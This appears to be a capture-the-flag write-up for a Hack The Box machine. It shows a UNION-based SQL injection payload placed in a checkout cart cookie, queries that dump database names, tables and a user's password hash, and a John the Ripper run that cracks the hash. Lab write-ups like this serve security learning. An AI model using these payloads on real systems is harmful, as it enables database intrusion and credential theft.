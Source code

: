 I will focus in the website for now, looks like both ports are hosting the same application and redirecting to HTTPS.

## Web Application

According to a cookie name I saw this looks like a Prestashop application. I tested the page a bit and trying to buy something I found what looks like a virtual host: `checkout.shared.htb`. The checkout page was pretty useless and not doing nothing really.

At this point I will run both a directory scan and a virtual host scan. After a while, I did not find anything worth mentioning. The only thing is that I found where to create a client account and that the API in `/api` was disabled. Luckily, I saw something interesting in the `checkout.shared.htb` application.

The cookie used to load the cart information into the checkout page has this format:

```
{"PRODUCT_ID":"QUANTITY"}
```

I tried to edit the product ID and I noticed that it is SQL injectable with something like:

```
{"HI' UNION SELECT 1,(SELECT group_concat(0x7c,schema_name,0x7c) from information_schema.schemata),3 -- - ":"1"}
```

That returned the name of the existing databases. From there, I wrote a little Python script to allow me to query the database easily and after a while I found a username and a password:

```

SELECT group_concat(0x7c,schema_name,0x7c) from information_schema.schemata
|information_schema|,|checkout|

SELECT group_concat(0x7c,table_name,0x7c) from information_schema.tables where table_schema='checkout'
|user|,|product|

SELECT group_concat(0x7c,column_name,0x7c) from information_schema.columns where table_name='user'
|id|,|username|,|password|

select group_concat(0x7c,username,0x7c,0x7c,password,0x7c) from user
|james_mason||fc895d4eddc2fc12f995e18c865cf273|
```

That looks like a MD5 hash so using the Rockyou dictionary and Jhon I cracked it:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Shared]
└─$ john --format=raw-md5 --wordlist=/home/kali/Wordlists/rockyou.txt  hash                                      1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
Soleil101        (?)     
1g 0:00:00:00 DONE (2022-11-03 13:44) 10.00g/s 20908Kp/s 20908Kc/s 20908KC/s Sportster1..SoccerBabe
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
